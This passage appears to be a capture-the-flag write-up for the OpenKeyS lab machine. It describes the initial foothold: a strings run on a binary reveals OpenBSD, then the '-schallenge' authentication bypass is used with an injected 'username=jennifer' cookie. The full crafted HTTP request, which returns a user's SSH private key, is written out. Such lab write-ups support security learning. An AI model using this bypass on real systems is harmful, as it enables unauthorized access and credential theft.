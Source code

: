 # Initial Foothold
Analyzing the file *check_auth* with **strings** as `strings check_auth` had revealed few key information, about the
target including **OpenBSD** and **auth_userkey**.
```shell
λ arcolinux OpenKeyS → strings check_auth 
/usr/libexec/ld.so
OpenBSD
libc.so.95.1
_csu_finish
exit
_Jv_RegisterClasses
atexit
auth_userokay
---SNIP---
```
Searching for the combination- *OpenBSD* and *check_auth* had revealed an **authentication bypass vulnerability in 
OpenBSD** [^fn2] [^fn3]. The vulnerability states that authentication on OpenBSD can be bypassed by using **-schallenge**
as the username with any password. Attempting the same on the login from [http://openkeys.htb](http://openkeys.htb)
had managed to bypass authentication, but had ultimately failed in retrieving SSH keys as the target has no user
*-schallenge*. Having found a valid username **jennifer** from the swap file, *auth.php.swp*, a viable method would be to
try and retrieve the SSH key for *jennifer*. To that effect, the login request was intercepted with *BurpSuite* and
a new cookie field, *username* was added to the request as 
`Cookie: PHPSESSID=9h0gbbeul2m6v82drk6eqe3ukb;username=jennifer`. The modified request is given below.
```http 
POST /index.php HTTP/1.1
Host: openkeys.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://openkeys.htb
Connection: close
Referer: http://openkeys.htb/index.php
Cookie: PHPSESSID=9h0gbbeul2m6v82drk6eqe3ukb;username=jennifer
Upgrade-Insecure-Requests: 1

username=-schallenge&password=password
```
Forwarding the modified request had presented the *SSH Private Key* of the user *jennifer* and the same is shown on the
screenshot given below.